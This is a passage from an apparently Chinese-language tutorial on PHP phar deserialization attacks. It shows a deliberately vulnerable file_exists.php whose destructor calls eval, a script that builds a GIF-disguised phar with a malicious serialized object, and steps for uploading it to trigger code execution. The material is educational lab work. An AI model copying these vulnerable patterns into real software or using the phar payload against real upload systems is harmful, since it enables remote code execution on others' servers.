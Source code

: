 ```php
    if (in_array($filetype, $ext_arr)) {
        move_uploaded_file($_FILES["pic"]["tmp_name"], $path . "/" . $_FILES["pic"]["name"]);
        echo "上传成功！";
    } else {
        echo "只允许上传.jpg|.png|.gif类型文件！";
    }

}
?>
```

file_exists.php
验证文件是否存在，漏洞利用点:`file_exists()`函数

```php
<?php
$filename = $_GET['filename'];

class ghtwf01
{
    public $a = 'echo exists;';

    function __destruct()
    {
        eval($this->a);
    }
}

file_exists($filename);
```

构造phar文件

```php
<?php
class ghtwf01{
    public $a = 'phpinfo();';
    function __destruct()
    {
        eval($this -> a);
    }
}
$phar = new Phar('phar.phar');
$phar -> stopBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$phar -> addFromString('test.txt','test');
$object = new ghtwf01();
$phar -> setMetadata($object);
$phar -> stopBuffering();
?>
```

改名为phar.gif，上传，利用file_exists.php文件去 包含这个gif文件
